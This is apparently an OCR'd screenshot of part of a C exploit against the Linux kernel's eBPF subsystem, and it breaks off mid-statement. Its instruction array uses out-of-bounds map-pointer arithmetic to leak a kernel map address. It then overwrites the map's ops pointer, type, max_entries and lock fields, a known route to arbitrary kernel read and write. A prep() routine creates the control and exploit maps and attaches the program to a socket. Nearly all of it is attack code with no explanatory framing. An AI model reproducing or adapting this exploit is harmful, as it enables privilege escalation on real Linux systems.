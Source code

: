 ```
    BPF_ALU64_IMM(BPF_MUL,6,0x110),

    // outmap
    BPF_LD_MAP_FD(BPF_REG_1,4),

    BPF_ALU64_IMM(BPF_MOV,8,0),
    BPF_STX_MEM(BPF_DW,10,8,-8),

    BPF_MOV64_REG(7,10),
    BPF_ALU64_IMM(BPF_ADD,7,-8),
    BPF_MOV64_REG(2,7),
    BPF_RAW_INSN(BPF_JMP|BPF_CALL,0,0,0,
            BPF_FUNC_map_lookup_elem),
    BPF_JMP_IMM(BPF_JNE,0,0,1),
    BPF_EXIT_INSN(),

    BPF_MOV64_REG(7,0),

    BPF_ALU64_REG(BPF_SUB,7,6),

    BPF_LDX_MEM(BPF_DW,8,7,0),
    /*// inmap[2] == map_addr*/
    BPF_STX_MEM(BPF_DW,9,8,0x10),
    BPF_MOV64_REG(2,8),

    BPF_LDX_MEM(BPF_DW,8,7,0xc0),
    BPF_STX_MEM(BPF_DW,9,8,0x18),

    BPF_STX_MEM(BPF_DW,7,8,0x40),
    BPF_ALU64_IMM(BPF_ADD,8,0x50),



    BPF_LDX_MEM(BPF_DW,2,9,0x8),
    BPF_JMP_IMM(BPF_JNE,2,1,4),
    BPF_STX_MEM(BPF_DW,7,8,0), //ops
    BPF_ST_MEM(BPF_W,7,0x18,BPF_MAP_TYPE_STACK),//map type
    BPF_ST_MEM(BPF_W,7,0x24,-1),// max_entries
    BPF_ST_MEM(BPF_W,7,0x2c,0x0), //lock_off




    BPF_ALU64_IMM(BPF_MOV,0,0),
    BPF_EXIT_INSN(),
};

void  prep(){
    ctrlmapfd = bpf_create_map(BPF_MAP_TYPE_ARRAY,sizeof(int),0x100,0x1);
    if(ctrlmapfd&lt;0){ __exit(strerror(errno));}
    expmapfd = bpf_create_map(BPF_MAP_TYPE_ARRAY,sizeof(int),0x2000,0x1);
    if(expmapfd&lt;0){ __exit(strerror(errno));}
    printf("ctrlmapfd: %d,  expmapfd: %d n",ctrlmapfd,expmapfd);


    progfd = bpf_prog_load(BPF_PROG_TYPE_SOCKET_FILTER,
            insns, sizeof(insns), "GPL", 0);  
    if(progfd &lt; 0){ __exit(strerror(errno));}

    if(socketpair(AF_UNIX, SOCK_DGRAM, 0, sockets)){
        __exit(strerror(errno));
    }
    if(setsockopt(sockets[1], SOL_SOCKET, SO_ATTACH_BPF, &amp;progfd, sizeof(progfd)) &lt; 0){ 
```